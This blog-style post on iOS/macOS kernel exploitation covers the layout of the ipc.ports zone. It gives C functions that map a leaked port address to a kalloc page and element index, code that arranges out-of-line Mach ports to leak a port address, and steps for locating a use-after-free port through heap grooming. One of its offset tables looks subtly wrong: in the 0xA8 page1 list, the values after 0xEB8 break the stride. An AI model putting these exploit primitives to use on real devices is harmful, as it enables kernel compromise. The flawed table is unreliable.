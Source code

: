 ```yaml
---
layout: post
title:  "About ipc.ports zone"
date:   2018-08-20
categories: ios macos exploitation
---
```


# Basics
* The size of `struct ipc_port` is 168. 
* The size of kalloc is 4096 * (3 or 4).

# ~~No offset collision~~
There is no offset collision in one kalloc, so if you can get the offset of a `ipc_port`, you can get the port index and page index.

```c
// 0xA8
uint64_t PRTS_GetPageAndElementInfo(uint64_t kObjAddr)
{
    static uint32_t page0[25] = {
        0x000, 0x0A8, 0x150, 0x1F8, 0x2A0, 0x348, 0x3F0, 0x498, 0x540, 0x5E8,
        0x690, 0x738, 0x7E0, 0x888, 0x930, 0x9D8, 0xA80, 0xB28, 0xBD0, 0xC78,
        0xD20, 0xDC8, 0xE70, 0xF18, 0xFC0
    };
    
    static uint32_t page1[25] = {
        0x058, 0x110, 0x1C8, 0x280, 0x338, 0x3F0, 0x4A8, 0x560, 0x618, 0x6D0,
        0x788, 0x840, 0x8F8, 0x9B0, 0xA68, 0xB20, 0xBD8, 0xC90, 0xD48, 0xE00,
        0xEB8, 0xE30, 0xED8, 0xF80, 0xFFF
    };
    
    static uint32_t page2[25] = {
        0x028, 0x0D0, 0x178, 0x220, 0x2C8, 0x370, 0x418, 0x4C0, 0x568, 0x610,
        0x6B8, 0x760, 0x808, 0x8B0, 0x958, 0xA00, 0xAA8, 0xB50, 0xBF8, 0xCA0,
        0xD48, 0xDF0, 0xE98, 0xF40, 0xFFF
    };
    
    static uint32_t* pages[] = {
        page0, page1, page2
    };
    
    uint32_t offset = kObjAddr & 0xFFF;
    
    int pgCnt = sizeof(pages) / sizeof(uint32_t *);
    int itemCnt = sizeof(page0) / sizeof(uint32_t);
    for (int pgIdx = 0; pgIdx < pgCnt; ++pgIdx) {
        for (int objIdx = 0; objIdx < itemCnt; ++objIdx) {
            if (pages[pgIdx][objIdx] == offset) {
                return ((uint64_t)pgIdx << 32) | objIdx;
            }
        }
    }
    
    return -1;
}


// 0xB8
uint64_t PRTS_GetPageAndElementInfo(uint64_t kObjAddr)
{
    static uint32_t page0[23] = {
        0x000, 0x0B8, 0x170, 0x228, 0x2E0, 0x398, 0x450, 0x508, 0x5C0, 0x678,
        0x730, 0x7E8, 0x8A0, 0x958, 0xA10, 0xAC8, 0xB80, 0xC38, 0xCF0, 0xDA8,
        0xE60, 0xF18, 0xFD0
    };
    
    static uint32_t page1[23] = {
        0x088, 0x140, 0x1F8, 0x2B0, 0x368, 0x420, 0x4D8, 0x590, 0x648, 0x700,
        0x7B8, 0x870, 0x928, 0x9E0, 0xA98, 0xB50, 0xC08, 0xCC0, 0xD78, 0xE30,
        0xEE8, 0xFA0, 0xFFF
    };
    
    static uint32_t page2[23] = {
        0x058, 0x110, 0x1C8, 0x280, 0x338, 0x3F0, 0x4A8, 0x560, 0x618, 0x6D0,
        0x788, 0x840, 0x8F8, 0x9B0, 0xA68, 0xB20, 0xBD8, 0xC90, 0xD48, 0xE00,
        0xEB8, 0xF70, 0xFFF
    };
    
    static uint32_t page3[23] = {
        0x028, 0x0E0, 0x198, 0x250, 0x308, 0x3C0, 0x478, 0x530, 0x5E8, 0x6A0,
        0x758, 0x810, 0x8C8, 0x980, 0xA38, 0xAF0, 0xBA8, 0xC60, 0xD18, 0xDD0,
        0xE88, 0xF40, 0xFFF
    };
    
    static uint32_t *pages[] = {
        page0, page1, page2, page3
    };
    
    uint32_t offset = kObjAddr & 0xFFF;
    
    int pgCnt = sizeof(pages) / sizeof(uint32_t *);
    int itemCnt = sizeof(page0) / sizeof(uint32_t);
    for (int pgIdx = 0; pgIdx < pgCnt; ++pgIdx) {
        for (int objIdx = 0; objIdx < itemCnt; ++objIdx) {
            if (pages[pgIdx][objIdx] == offset) {
                return ((uint64_t)pgIdx << 32) | objIdx;
            }
        }
    }
    
    return -1;
}
```

# Info leak by ool ports
Should pay attention to port layout.

```c
// 0xA8
void PRTS_LayoutPorts(mach_port_t *payloadObjs, int portCnt, mach_port_t infoLeakPort)
{
    static const int step = (PRTS_PAGE_SIZE / PRTS_PORT_SIZE) + 1;
    static const int ctxOffset = (PRTS_PORT_CTX_OFFSET / 8);
    
    // page: 1
    for (int idx = 0; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 2
    payloadObjs[10] = infoLeakPort;
    for (int idx = 13; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 3
    payloadObjs[2] = infoLeakPort;
    for (int idx = 5; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
}


// 0xB8
void PRTS_LayoutPorts(mach_port_t *payloadObjs, int portCnt, mach_port_t infoLeakPort)
{
    static const int step = (PRTS_PAGE_SIZE / PRTS_PORT_SIZE) + 1;
    static const int ctxOffset = (PRTS_PORT_CTX_OFFSET / 8);
    
    // page: 1
    for (int idx = 0; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 2
    payloadObjs[14] = infoLeakPort;
    for (int idx = 17; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 3
    payloadObjs[8] = infoLeakPort;
    for (int idx = 11; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 4
    payloadObjs[2] = infoLeakPort;
    for (int idx = 5; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
}
```

# How to get UaF port address
* By filling the gap, you can get 2 kalloc with continuous address.
* Place the UaF port in the 1st kalloc, place the info leak port in the 2nd kalloc.
* With ool ports, you can get the address of info leak port.
* With the address of info leak port, you can call `PRTS_GetPageAndElementInfo`.
* With the info of 2nd kalloc, you can get the address range of 1st kalloc.
* If you can get the offset of UaF port, you can get the info of 1st kalloc.
* With GC, you can control 3 pages.

